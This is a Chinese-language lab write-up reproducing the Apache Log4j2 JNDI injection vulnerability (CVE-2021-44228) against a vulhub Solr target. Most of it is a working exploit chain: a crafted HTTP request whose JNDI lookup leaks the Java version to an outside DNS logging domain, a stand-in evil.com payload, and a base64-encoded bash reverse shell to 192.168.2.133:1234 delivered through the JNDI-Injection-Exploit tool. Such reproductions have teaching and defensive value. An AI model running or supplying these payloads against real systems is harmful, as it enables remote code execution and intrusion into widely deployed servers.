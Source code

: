 # 漏洞复现——Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）

# 漏洞概述

Apache Log4j 2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

# 漏洞复现

1. 进入ubuntu靶机的vulhub/log4j/CVE-2021-4428目录，docker启动环境

   ``` shell
   sudo docker-compose up -d
   ```

2. 访问靶机IP:8983端口，看到如下页面

   ![1.png](img/log4j/1.png)

3. 使用dns平台[dig](https://dig.pm/)获取一个域名

   ![2.png](img/log4j/2.png)

4. 抓包，构造获取java版本的Payload发送请求到dig

   ```
   GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.5fc81d25.dns.1433.eu.org} HTTP/1.1
   Host: 192.168.2.132:8983
   Accept-Encoding: gzip, deflate
   Accept: */*
   Accept-Language: en
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
   Connection: close
   ```

5. 刷新dig页面，成功获取到java版本，命令被成功执行

   ![3.png](img/log4j/3.png)

# 反弹shell

1. 将反弹shell的payload进行base64加密

   ``` shell
   bash -i >& /dev/tcp/192.168.2.133/1234 0>&1
   ```

2. 使用JNDI注入工具生成payload，并开启ldap服务

   ``` java
   java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMzLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
   ```

3. 修改数据包，使靶机访问ldap，即可反弹shell

